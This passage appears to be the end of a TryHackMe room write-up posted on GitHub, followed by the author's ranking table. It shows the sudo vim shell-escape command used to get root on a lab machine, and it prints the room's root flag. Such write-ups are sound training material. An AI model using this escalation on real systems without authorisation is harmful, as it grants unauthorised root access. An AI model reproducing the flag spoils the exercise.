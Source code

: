 <br>
<br>

```bash
adrian@ip-10-10-89-107:~$ sudo -l
Matching Defaults entries for adrian on ip-10-10-89-107:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on ip-10-10-89-107:
    (root) NOPASSWD: /usr/bin/vim
adrian@ip-10-10-89-107:~$ sudo /usr/bin/vim -c ':!/bin/sh'
```

```bash
:!/bin/sh

# cat /root/root.txt
THM{Adm1n$_jU$t_c@n'T_stAy_Aw@k3_T$k_tsk_tSK}
```


<br>
<br>

<h1 align="center">Room Completed</h1>
<br>
<p align="center">
<img width="1000px" src="https://github.com/user-attachments/assets/b055798e-3034-4c03-838f-e28f2be8fce8"><br>
<img width="1000px" src="https://github.com/user-attachments/assets/35b6fa04-89b8-4121-af76-2bdbca5b00b3"></p>

<br>
<br>


<h1 align="center">My TryHackMe Journey</h1>

<div align="center">

| Date              | Streak   | All Time     | All Time     | Monthly     | Monthly    | Points   | Rooms     | Badges    |
| :---------------: | :------: | :----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |          |    Global    |    Brazil    |    Global   |   Brazil   |          | Completed |           |
| July 13, 2025     | 433      |     160ᵗʰ    |      5ᵗʰ     |    189ᵗʰ    |     8ᵗʰ    |  114,585 |    854    |     64    |

</div>

<p align="center"> Global All Time:  160ᵗʰ<br><br><img width="1000px" src="https://github.com/user-attachments/assets/bdf625a9-57f9-4ffb-8544-40c39a5a71fd"><br>
                                                  <img width="1000px" src="https://github.com/user-attachments/assets/2144b4e2-39f5-4865-9eef-dadd4174973c"></p>

<p align="center"> Brazil All Time:   5ᵗʰ<br><br><img width="1000px" src="https://github.com/user-attachments/assets/633dd9dd-2b91-4604-b92e-8d9f9ecbf26f"> </p>

<p align="center"> Global monthly:    189ᵗʰ<br><br><img width="1000px" src="https://github.com/user-attachments/assets/be3d6057-18e9-4786-bd8d-bda03c5d7edf"> </p>

<p align="center"> Brazil monthly:    8ᵗʰ<br><br><img width="1000px" src="https://github.com/user-attachments/assets/06edc12b-7006-4092-9b85-4f8d8e5fa4fa"> </p>

